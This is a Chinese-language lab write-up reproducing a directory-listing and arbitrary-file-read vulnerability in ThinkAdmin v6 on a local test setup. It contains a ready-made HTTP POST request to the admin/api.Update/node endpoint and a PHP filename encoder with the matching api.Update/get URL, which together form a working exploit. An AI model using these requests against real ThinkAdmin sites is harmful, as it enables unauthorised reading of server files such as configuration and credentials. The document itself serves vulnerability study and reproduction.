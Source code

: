 # 0x00 软件介绍
基于ThinkPHP，专注于微信领域后台管理的一款开发框架

# 0x01 复现环境
使用环境：本地搭建的环境  
复现版本：2020.08.03.1之前的某一个v6版本：https://github.com/179776823/ThinkAdmin

# 0x02 环境搭建
目标环境：2008_r2_standard_zh-chs + phpstudy + https://github.com/179776823/ThinkAdmin

composer config -g repo.packagist composer https://mirrors.aliyun.com/composer #使用阿里云的源更快一些  
https://github.com/179776823/ThinkAdmin #下载有漏洞的v6版本到phpstudy的对应目录下  
cd ThinkAdmin  
composer install  
create database admin_v6;  
create user 'admin_v6'@'localhost' identified by 'FbYBHcWKr2';#用户名密码来自config\database.php  
grant all on admin_v6.* to 'admin_v6'@'localhost';  
use admin_v6;  
source C:\phpstudy_pro\WWW\ThinkAdmin-6\admin_v6.sql;#将数据导入数据库  
访问：http://127.0.0.1:81/ThinkAdmin-6/public/index.php  
参考链接：  
https://mp.weixin.qq.com/s/MjU6u_eTsdH-nwQAgbxLRw  
https://thinkadmin.top/install  
https://www.cnblogs.com/Dot-Boy/archive/2008/08/04/1260185.html  
https://www.jianshu.com/p/d7b9c468f20d  
https://github.com/xuxuedong/personal-note/tree/master/2020_10_18_%E7%BD%91%E7%AB%99%E6%90%AD%E5%BB%BA%E4%BB%8E%E5%A4%B4%E8%AE%B0%E5%BD%95

# 0x03 利用条件
无

# 0x04 影响版本
漏洞发现者原话：2020.08.03.01，≤这个版本的都有可能存在漏洞  
参考链接：  
https://github.com/zoujingli/ThinkAdmin/issues/244

# 0x05 漏洞复现
攻击环境：Kali-Linux-2020.2-vmware-amd64 + Burp_Suite_Pro_v2020.5.1

列目录漏洞复现：  
访问：http://192.168.149.133:81/ThinkAdmin-6/public/index.php/admin/login.html  
burp抓包，将数据包修改如下：  
```
POST /ThinkAdmin-6/public/index.php/admin/login.html?s=admin/api.Update/node HTTP/1.1
Host: 127.0.0.1
Accept: */*Accept-Language: enUser-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: application/x-www-form-urlencoded
Content-Length: 22

rules=%5B%22.%2F%22%5D
```
成功列出了目录，如下图  
![image](./0.png)

任意文件读取漏洞复现：  
在网站根目录（C:\phpstudy_pro\WWW\ThinkAdmin-6\）下创建一个文件，名为1.txt，内容为：lalala  
在攻击机的浏览器中访问：http://192.168.149.133:81/ThinkAdmin-6/public/index.php?s=admin/api.Update/get/encode/1d1a383c38  
其中1d1a383c38是1.txt经过函数编码后得到的，编码的函数为  
```
<?php
function encode($content)
{
    list($chars, $length) = ['', strlen($string = iconv('UTF-8', 'GBK//TRANSLIT', $content))];
    for ($i = 0; $i < $length; $i++) $chars .= str_pad(base_convert(ord($string[$i]), 10, 36), 2, 0, 0);
    return $chars;
}

print( encode("1.txt") );
```
访问后，得到“bGFsYWxh”，经base64解码为“lalala”，如下图  
![image](./1.png)

![image](./2.png)
# 0x06 踩坑记录
无

# 0x07 参考链接
https://mp.weixin.qq.com/s/MjU6u_eTsdH-nwQAgbxLRw

